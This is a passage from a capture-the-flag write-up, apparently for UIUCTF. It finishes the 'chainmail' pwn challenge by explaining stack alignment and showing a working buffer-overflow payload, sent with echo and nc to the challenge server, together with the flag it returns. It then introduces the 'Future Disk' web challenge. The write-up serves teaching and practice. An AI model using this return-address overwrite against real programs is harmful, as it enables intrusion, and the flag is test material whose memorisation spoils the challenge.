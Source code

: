 | The stack will always be maintained 16-byte aligned, except within the prolog (for example, after the return address is pushed), and except where indicated in Function Types for a certain class of frame functions.

But when we are calling the give_flag function, the stack actually isn't aligned. This cause some libc function to freak out and break. 

One way to fix this is to jump over the first `push rbp` instruction in give_flag. So instead of jumping to 0x401216, we'll jump to 0x40121b. This aligns the stack and the program will no longer segfault. Another way is to insert a ret ROP gadget to move the stack down 0x8 byte, but I'll omit the discussion about this technique here.

With that, all we need is to send the payload to remote and profit =D (See blow for the log of sending the payload to remote.)

flag:  `uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}`

```
chainmail$ echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x1b\x12\x40\x00\x00\x00\x00\x00' | nc chainmail.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Hello, welcome to the chain email generator! Please give the name of a recipient: Okay, here's your newly generated chainmail message!

Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,
Have you heard the news??? Send this email to 10 friends or else you'll have bad luck!

Your friend,
Jim
uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}
```

## Web
### Future Disk 1/2 [*]
#### Overview

```text
Ver 1:
I'm from the year 2123. Here's what I did:

-    Mounted my 10 exabyte flash drive
-    fallocate -l 8E haystack.bin
-    dd if=flag.txt bs=1 seek=[REDACTED] conv=notrunc of=haystack.bin
-    gzip haystack.bin
-    Put haystack.bin.gz on my web server for you to download

HTTP over Time Travel is a bit slow, so I hope gzipping it made it a little faster to download :)
https://futuredisk-web.chal.uiuc.tf/haystack.bin.gz

---
Ver 2:
Like futuredisk, but a little worse.

https://futuredisk2-web.chal.uiuc.tf/haystack2.bin.gz
---

Author: kuilin
Solves: 22 (Ver 1)/ 8 (Ver 2)
```
**Disclaimer**: I only solve this challenge (both version) after the competition. In the final solve, I already know that block alignment can be used for binary serach, and I know the block size pattern for part 2. 
